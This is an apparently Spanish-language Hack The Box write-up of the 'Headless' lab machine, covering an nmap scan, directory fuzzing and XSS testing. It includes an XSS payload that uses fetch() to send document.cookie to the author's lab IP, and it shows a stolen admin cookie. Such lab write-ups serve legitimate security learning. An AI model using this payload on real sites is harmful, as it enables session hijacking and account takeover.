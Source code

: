 #HTB - HEADLESS

## Enumeración de puertos/servicios

``` bash 
sudo nmap -sCVT 10.10.11.8
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/cc1af630-4f2d-477d-b696-6a4e17f1ece6)

Podemos ver 2 puertos abiertos:
- 22 (SSH)
- 5000 (posiblemente una web)

Vamos a probar si funciona la ip con el puerto 5000.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/850f9ad0-3187-4e0d-a5cc-1eabf2706e0f)


Efectivamente funciona la web, una vez tenemos acceso a ella lo primero que vamos a hacer es realizar un fuzzing en busca de directorios:

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/d4766bf4-277e-4c2b-a129-c646d98be7d6)


## Detección de vulnerabilidades


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/241dc6dd-04dd-4d20-891a-94850e1c1e4e)


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/33cdc751-0bcf-4ee8-b42f-ab14de7a8d6c)



``` javascript
<script>alert(‘XSS’)</script>
```



Después de probar con algunos xss decido probar por otro lado a ver si funciona.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2f294528-ef0f-4640-9183-55b033e60dd9)


![[Pasted image 20240404183654.png]]

![[Pasted image 20240404183642.png]]

``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```

![[Pasted image 20240404184159.png]]


![[Pasted image 20240404184144.png]]

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"

![[Pasted image 20240404184300.png]]
